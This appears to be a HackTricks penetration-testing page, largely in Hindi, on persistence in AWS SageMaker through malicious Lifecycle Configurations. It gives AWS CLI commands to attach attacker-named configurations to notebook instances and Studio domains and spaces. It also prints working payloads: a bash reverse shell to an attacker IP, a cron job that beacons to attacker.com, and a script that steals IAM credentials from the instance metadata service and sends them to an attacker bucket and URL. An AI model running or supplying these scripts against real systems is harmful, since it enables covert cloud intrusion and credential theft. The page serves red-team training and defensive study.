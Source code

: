 # Aws Sagemaker Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Overview of Persistence Techniques

यह अनुभाग SageMaker में स्थिरता प्राप्त करने के तरीकों को रेखांकित करता है, जिसमें Lifecycle Configurations (LCCs) का दुरुपयोग करना शामिल है, जैसे कि रिवर्स शेल, क्रॉन जॉब, IMDS के माध्यम से क्रेडेंशियल चोरी, और SSH बैकडोर। ये स्क्रिप्ट इंस्टेंस के IAM भूमिका के साथ चलती हैं और पुनरारंभ के दौरान स्थायी रह सकती हैं। अधिकांश तकनीकों के लिए आउटबाउंड नेटवर्क एक्सेस की आवश्यकता होती है, लेकिन AWS नियंत्रण Plane पर सेवाओं का उपयोग करने से भी सफलता मिल सकती है यदि वातावरण 'VPC-only' मोड में है।
#### Note: SageMaker नोटबुक इंस्टेंस मूल रूप से मशीन लर्निंग कार्यभार के लिए विशेष रूप से कॉन्फ़िगर की गई प्रबंधित EC2 इंस्टेंस हैं।

## Required Permissions
* Notebook Instances:
```
sagemaker:CreateNotebookInstanceLifecycleConfig
sagemaker:UpdateNotebookInstanceLifecycleConfig
sagemaker:CreateNotebookInstance
sagemaker:UpdateNotebookInstance
```
* स्टूडियो एप्लिकेशन:
```
sagemaker:CreateStudioLifecycleConfig
sagemaker:UpdateStudioLifecycleConfig
sagemaker:UpdateUserProfile
sagemaker:UpdateSpace
sagemaker:UpdateDomain
```
## नोटबुक उदाहरणों पर जीवनचक्र कॉन्फ़िगरेशन सेट करें

### उदाहरण AWS CLI कमांड:
```bash
# Create Lifecycle Configuration*

aws sagemaker create-notebook-instance-lifecycle-config \
--notebook-instance-lifecycle-config-name attacker-lcc \
--on-start Content=$(base64 -w0 reverse_shell.sh)


# Attach Lifecycle Configuration to Notebook Instance*

aws sagemaker update-notebook-instance \
--notebook-instance-name victim-instance \
--lifecycle-config-name attacker-lcc
```
## SageMaker स्टूडियो पर जीवनचक्र कॉन्फ़िगरेशन सेट करें

जीवनचक्र कॉन्फ़िगरेशन को विभिन्न स्तरों पर और SageMaker स्टूडियो के भीतर विभिन्न ऐप प्रकारों के लिए जोड़ा जा सकता है।

### स्टूडियो डोमेन स्तर (सभी उपयोगकर्ता)
```bash
# Create Studio Lifecycle Configuration*

aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-studio-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)


# Apply LCC to entire Studio Domain*

aws sagemaker update-domain --domain-id <DOMAIN_ID> --default-user-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
### स्टूडियो स्पेस स्तर (व्यक्तिगत या साझा स्पेस)
```bash
# Update SageMaker Studio Space to attach LCC*

aws sagemaker update-space --domain-id <DOMAIN_ID> --space-name <SPACE_NAME> --space-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
## Studio Application Lifecycle Configurations के प्रकार

Lifecycle configurations को विशेष रूप से विभिन्न SageMaker Studio एप्लिकेशन प्रकारों पर लागू किया जा सकता है:
* JupyterServer: Jupyter सर्वर स्टार्टअप के दौरान स्क्रिप्ट चलाता है, जो रिवर्स शेल और क्रॉन जॉब्स जैसे पर्सिस्टेंस मैकेनिज्म के लिए आदर्श है।
* KernelGateway: कर्नेल गेटवे ऐप लॉन्च के दौरान निष्पादित होता है, प्रारंभिक सेटअप या स्थायी पहुंच के लिए उपयोगी है।
* CodeEditor: कोड संपादक (Code-OSS) पर लागू होता है, जो कोड संपादन सत्रों की शुरुआत पर निष्पादित होने वाली स्क्रिप्टों को सक्षम करता है।

### प्रत्येक प्रकार के लिए उदाहरण कमांड:

### JupyterServer
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-jupyter-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)
```
### KernelGateway
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-kernelgateway-lcc \
--studio-lifecycle-config-app-type KernelGateway \
--studio-lifecycle-config-content $(base64 -w0 kernel_persist.sh)
```
### CodeEditor
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-codeeditor-lcc \
--studio-lifecycle-config-app-type CodeEditor \
--studio-lifecycle-config-content $(base64 -w0 editor_persist.sh)
```
### Critical Info:
* डोमेन या स्पेस स्तर पर LCCs को संलग्न करना सभी उपयोगकर्ताओं या अनुप्रयोगों को प्रभावित करता है जो दायरे में हैं।
* उच्च अनुमतियों की आवश्यकता होती है (sagemaker:UpdateDomain, sagemaker:UpdateSpace) जो आमतौर पर स्पेस स्तर पर डोमेन स्तर की तुलना में अधिक व्यावहारिक होती हैं।
* नेटवर्क-स्तरीय नियंत्रण (जैसे, सख्त ईग्रेस फ़िल्टरिंग) सफल रिवर्स शेल या डेटा एक्सफिल्ट्रेशन को रोक सकते हैं।

## Reverse Shell via Lifecycle Configuration

SageMaker Lifecycle Configurations (LCCs) कस्टम स्क्रिप्ट्स को निष्पादित करते हैं जब नोटबुक उदाहरण शुरू होते हैं। अनुमतियों के साथ एक हमलावर एक स्थायी रिवर्स शेल स्थापित कर सकता है।

### Payload Example:
```
#!/bin/bash
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```
## Cron Job Persistence via Lifecycle Configuration

एक हमलावर LCC स्क्रिप्ट के माध्यम से क्रोन जॉब्स इंजेक्ट कर सकता है, जिससे दुर्भावनापूर्ण स्क्रिप्ट या कमांड का आवधिक निष्पादन सुनिश्चित होता है, जिससे छिपी हुई स्थिरता सक्षम होती है।

### Payload Example:
```
#!/bin/bash
PAYLOAD_PATH="/home/ec2-user/SageMaker/.local_tasks/persist.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_PATH"
CRON_JOB="*/30 * * * * $CRON_CMD"

mkdir -p /home/ec2-user/SageMaker/.local_tasks
echo 'import os; os.system("curl -X POST http://attacker.com/beacon")' > $PAYLOAD_PATH
chmod +x $PAYLOAD_PATH

(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user -
```
## Credential Exfiltration via IMDS (v1 & v2)

Lifecycle configurations can query the Instance Metadata Service (IMDS) to retrieve IAM credentials and exfiltrate them to an attacker-controlled location.

### Payload Example:
```bash
#!/bin/bash
ATTACKER_BUCKET="s3://attacker-controlled-bucket"
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME > /tmp/creds.json

# Exfiltrate via S3*

aws s3 cp /tmp/creds.json $ATTACKER_BUCKET/$(hostname)-creds.json

# Alternatively, exfiltrate via HTTP POST*

curl -X POST -F "file=@/tmp/creds.json" http://attacker.com/upload
```
{{#include ../../../banners/hacktricks-training.md}}
